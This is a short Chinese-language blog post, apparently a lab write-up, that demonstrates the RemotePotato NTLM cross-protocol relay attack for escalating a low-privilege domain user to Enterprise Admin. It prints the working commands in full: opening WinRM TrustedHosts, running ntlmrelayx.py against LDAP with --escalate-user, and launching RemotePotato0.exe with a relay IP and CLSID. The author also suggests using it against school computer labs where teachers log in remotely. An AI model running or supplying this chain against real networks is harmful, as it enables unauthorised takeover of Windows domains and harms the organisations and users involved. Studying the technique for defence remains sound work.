









RemotePotato
2021/08/24
posted in
域渗透
2021/08/24
posted in
域渗透
获取低权限用户权限shell+具有Domain Administrator特权的用户实际上已登录到同一主机或通过远程桌面登录（不需要有impersonation权限）
同一主机在线有点鸡肋，打学校机房可能是神器，老师远程查电脑就得中招
dcom trigger（IObjectExporter::ResolveOxid2 authenticated with ntlm sign set+IRemUnknown2::RemRelease authenticae with ntlm sign not set）+mitm+ntlm跨协议中继（mitm需要域管在线同一个机器）


测试环境: 攻击机（win10_10.1.1.133+mac_10.1.1.1）-> victim（win2012_10.1.1.132）
adsecurity\administrator登录win2012的普通机器

在win10上powershell winrm登录win2012,以普通域用户（zhangsan）的权限
Set-Item WSMan:\localhost\Client\TrustedHosts -Value *
Enter-PSSession -ComputerName 10.1.1.132 -Authentication Negotiate -Credential $(get-credential)

mac上开启ntlm中继
python ntlmrelayx.py -t ldap://10.1.1.128 --no-wcf-server --escalate-user zhangsan

.\RemotePotato0.exe -m 0 -r 10.1.1.1 -x 10.1.1.132 -p 9999 -s 1 -c "{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}" # win2012的cid在exp里没有，需要额外补充

ntlm中继成功，zhangsan变为企业管理员权限

psexec从无权限变为有权限


relaying-potatoes-dce-rpc-ntlm-relay-eop
Remote Potato – From Domain User to Enterprise Admin
OXID Resolution Request
IRemUnknown Methods
Remote Potato–从域用户到企业管理员
8137)
8137)
8137)